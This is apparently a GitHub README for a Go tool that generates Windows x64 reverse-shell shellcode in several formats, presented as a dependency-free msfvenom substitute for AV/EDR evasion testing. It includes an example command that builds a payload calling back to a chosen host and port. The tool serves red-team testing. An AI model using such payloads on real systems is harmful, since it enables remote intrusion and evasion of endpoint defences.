 # shell_reverse_tcp
msfvenom windows/x64/shell_reverse_tcp payload generator without dependencies

# Help

```
$ ./shell_reverse_tcp -h
Usage of ./shell_reverse_tcp:
  -f string
        Formats: {raw, hex, base64, c, rust, csharp, psh, vba} (default "raw")
  -l string
        LHOST IP address (default "127.0.0.1")
  -p int
        Port number (0-65535) (default 4444)
```

## Example

```
$ ./shell_reverse_tcp -l 192.168.1.2 -p 4444 -f raw > shellcode.bin
```

# Build

```bash
git clone https://github.com/nchgroup/shell_reverse_tcp
cd shell_reverse_tcp/
go build .
```

# Project spirit
Generate your payload in x64 quickly and easily without dependencies to perform AV/EDR evasion tests on Windows in amd64, so you can use encoders, ciphers, obfuscators, whatever.

# References
* https://vay3t.medium.com/malware-development-generando-shellcodes-de-metasploit-sin-metasploit-aa120ffcdd92
* https://github.com/rapid7/metasploit-framework/blob/master/modules/payloads/singles/windows/x64/shell_bind_tcp.rb#L47
* https://github.com/vay3t/asm-shell_reverse_tcp

# Authors
* [Huerfano](https://www.linkedin.com/in/leonardo-astorga-20b1095a/)
* [Vay3t](https://vay3t.org)
